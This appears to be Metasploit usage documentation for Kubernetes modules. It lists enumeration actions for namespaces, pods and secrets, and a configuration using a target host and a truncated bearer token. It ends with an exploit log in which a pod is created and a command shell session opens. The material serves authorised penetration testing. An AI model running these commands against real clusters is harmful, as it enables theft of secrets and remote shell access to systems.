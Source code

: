 `msf
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
`

`
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
`

`msf
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400
